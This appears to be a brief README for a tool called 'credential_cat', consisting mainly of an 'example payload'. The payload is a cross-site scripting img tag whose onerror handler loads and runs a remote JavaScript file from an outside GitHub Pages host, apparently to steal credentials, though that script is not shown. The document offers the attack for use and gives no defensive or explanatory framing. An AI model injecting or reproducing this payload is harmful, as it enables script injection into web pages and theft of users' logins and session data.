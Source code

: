 # credential_cat

#### example payload:
> <img src="jiji://a/404.png" width="1px" height="1px" onerror=" var s = document.createElement('script');s.src = 'https://astals.github.io/credential_cat/credential_cat.js' ;$('head').append(s);">
